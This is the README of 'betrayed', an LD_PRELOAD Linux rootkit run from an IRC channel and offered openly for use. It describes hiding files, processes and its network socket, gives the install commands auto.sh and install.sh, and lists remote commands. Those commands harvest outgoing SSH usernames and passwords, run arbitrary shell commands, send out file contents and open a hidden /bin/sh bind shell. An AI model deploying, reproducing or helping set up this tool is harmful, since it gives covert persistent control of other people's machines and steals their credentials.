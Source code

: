 # betrayed
### Basic info
betrayed is an LD_PRELOAD Linux rootkit which is controlled mainly from a IRC channel.</br>
It is free of any dependencies, and installs near enough instantly.</br>
Files and processes are hidden with a magic GID, and the connection to the IRC server is hidden from plain sight. Tools like `netstat` and `ss` will not show betrayed's socket connection.</br>
Upon setup, betrayed will begin to fork from newly spawned processes, of course only if there is no other instance of the main process.</br>
betrayed's code is a very heavily modified and (de)restructured version of bedevil.
#### Usage
There are two scripts you can use to install betrayed. One is a regular compile/install script, the other script is intended to directly install betrayed without asking you for input during installation.</br>
<b>install.sh</b> will ask you for a host which betrayed will connect to, and a channel upon which to join.</br>
<b>auto.sh:</b> `./auto.sh irc.host "#channel"` will directly install betrayed without asking you for input at runtime.</br>
Once you have ran either of these two scripts, install.sh will `cat /dev/null`, which will cause betrayed to execute its initial fork process. Even without doing `cat /dev/null` at the end of the installation, any newly spawned process will initiate the connection to the IRC server.</br>
<b>Compile only:</b> `COMPILE_ONLY=1 ./install.sh` will compile betrayed.so in your cwd.</br>
</br>
Once installed, and assuming you are in your target channel, you will see a new user with a random nick join your channel. That is essentially the box that you installed betrayed on.
#### Available commands
 * !ssh_logs (reads outgoing SSH logs, sends usernames and passwords to your desired IRC channel)
 * !sh [command] (executes commands on the server that betrayed is installed on, and sends command output to the channel)
 * !read_file [path] (sends contents of path to IRC channel)
 * !bind [port] (creates a hidden /bin/sh bind shell on given port which you can connect to)
 * !kill [nick] (kills specified iteration of betrayed. removes ld.so.preload and disconnects)

